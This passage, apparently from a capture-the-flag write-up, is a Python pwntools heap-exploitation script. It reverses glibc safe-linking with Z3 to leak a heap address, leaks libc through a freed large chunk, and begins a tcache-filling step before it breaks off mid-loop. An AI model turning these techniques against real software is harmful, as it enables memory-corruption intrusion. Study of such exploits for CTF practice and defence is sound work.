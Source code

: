 ```python
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()

def write(idx, size, context):
        sla(b"> ", b"1")
        sla(b": ", str(idx).encode())
        sla(b": ", str(size).encode())
        sla(b": ", context)
def free(idx):
        sla(b"> ", b"2")
        sla(b": ", str(idx).encode())
def show(idx):
        sla(b"> ", b"3")
        sla(b": ", str(idx).encode())
        value = u64(p.recvline(keepends = False).ljust(8, b"\0"))
        return value
# Leak heap
write(0, 0x20, "e"*8)
write(1, 0x20, "1"*8)
free(0)
free(1)
heap_leak = show(1)
heap_leak = unsafe_link(heap_leak)
info("heap leak: " + hex(heap_leak))
# Leak libc
write(0, 0x500-0x10, "a")
write(10, 0x100+0xa0, "a")
free(0)
libc_leak = show(0)
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x219ce0
info("libc base: " + hex(libc.address))

# # tcache
# fill tcache, merge chunk 7 8 9
for i in range(0,8):
        write(i, 0x100-0x10, b"a")
write(7, 0x100-0x10, "a")
write(8, 0x100-0x10, "a")
write(9, 0x100-0x10, "a")
write(10, 0x500-0x10, "a")
write(11, 0x100+0xa0, "a")
for i in range(0, 7):
```